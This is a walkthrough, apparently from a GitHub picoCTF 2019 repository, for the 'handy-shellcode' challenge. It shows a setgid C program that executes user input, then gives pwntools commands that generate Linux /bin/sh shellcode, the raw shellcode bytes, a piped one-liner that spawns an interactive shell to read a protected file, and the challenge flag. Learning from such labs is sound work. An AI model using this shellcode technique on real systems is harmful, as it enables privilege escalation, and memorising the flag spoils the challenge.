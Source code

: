 # handy-shellcode
50 points

### Description
*"This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source."*

### Solution
Here's a look at the source code provided:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

This one is actually pretty simple in execution, but we'll need to introduce a few new concepts to understand everything that is going on. We see that the program prompts the user for input, then creates a function pointer for that input and tries to execute it. If we give the program input that isn't executable, the program will run into a segmentation fault.

If we take a look at the directory that this program is in on the server, we see the flag file, but we don't have permission to read it.
```
$ cd /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb
$ ls
flag.txt  vuln  vuln.c
$ cat flag.txt 
cat: flag.txt: Permission denied
```
However, if we take a look at the permissions for the files in this directory, we can see that `flag.txt` is in the same permissions group as `vuln`. 
```
$ ls -l
total 656
-r--r----- 1 hacksports handy-shellcode_6     39 Sep 28  2019 flag.txt
-rwxr-sr-x 1 hacksports handy-shellcode_6 661832 Sep 28  2019 vuln
-rw-rw-r-- 1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you aren't familiar with how file permissions work in UNIX filesystems, you can learn more about it [here](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

So, we should take a hint from the problem. It asks if we can spawn a shell through the program to read `flag.txt`. Well, this is exactly what we are going to do.

First, we need to talk about **shellcode**. If you aren't familiar with the concept, a piece of shellcode is typically a malicious portion of code that a hacker wants to use as the [payload](https://en.wikipedia.org/wiki/Payload_(computing)) in exploiting a vulnerability.

In simple terms, when a C program is compiled, it is translated into binary machine code that the computer can actually understand. However, there is an intermediary step where the C source code is translated by the compiler into [assembly code](https://en.wikipedia.org/wiki/Assembly_language), which is then translated by an *assembler* into executable machine code.

We can actually write assembly ourselves that can be translated into hexadecimal, which will make it a valid, executable piece of code. This is the process by which shellcode is usually created. You can find a great introduction to shellcode [here](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) if you want to learn more about it.

As hackers, this problem makes our job **very** easy. Usually, we have to find creative ways to execute our payloads, but this program will do it for us! All we have to do is find the right shellcode.

There are a lot of great shellcode databases online, but I think the best is [shell-storm](http://shell-storm.org/shellcode/).

However, if you've checked out any of my other picoCTF walkthroughs, you may have learned that I like to do stuff with python when I can. For this, we're going to use of the most useful python modules available to hackers: [pwntools](http://docs.pwntools.com/en/stable/).

The `pwn.shellcraft` module has a lot of useful code for generating shellcode, and it can be used to generate shellcode for many different operating systems and architectures.
```python
from pwn import shellcraft

print(shellcraft.linux.sh())
```

The code above will print out the actual *assembly* instructions for generating a shell on a linux operating system. Remember, we don't want assembly code, but rather *shellcode*.

We can use `pwn.asm` to convert assembly instructions to machine code:
```python
from pwn import shellcraft, asm

print(asm(shellcraft.linux.sh()))
```

Here's something like what you should've gotten.
<details>
  <summary>Shellcode:</summary>
  b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
</details>

If your output had a lot of random characters, don't worry, that just means python is printing out the actual bytes rather than the hex values. This is just dependent on your python version.

We now want this shellcode to be fed in as the input to `vuln`. If we are in the directory with `vuln` and `flag.txt` on the server, we can execute the python code above in one command using the python `-c` flag. We can then pipe this into `vuln`.
```
$ python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))" | ./vuln
```

However, you'll notice that you can't actually use the shell that spawns, you're immediately brought back to your normal command-line prompt. This is a common issue we run into in situations like this. What's happening is that python gives the input to `vuln`, then python stops executing. This is bad because all of the input to `vuln` is going through python. So, when python stops executing, `vuln` stops trying to get input, even if the shell is spawned.

This is easy to fix. We just need to append another command that executes *after* the python command, but prompts for input. This will give us an input stream to be able to interact will the shell that we spawned.

The best command for this is `cat`, since when it is used with no arguments, it just waits for user input and then repeats it as output.
```
$ (python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln
```

While you can't see the prompt, we are now in the shell that we spawned. We can use `id` to see that we now have the same group permissions as `flag.txt`. So, we can finally read it.
```
$ (python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
id
uid=49513(flow2) gid=8875(handy-shellcode_6) groups=8875(handy-shellcode_6),1002(competitors),49514(flow2)
ls
flag.txt  vuln	vuln.c
cat flag.txt
```

And this should get you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)

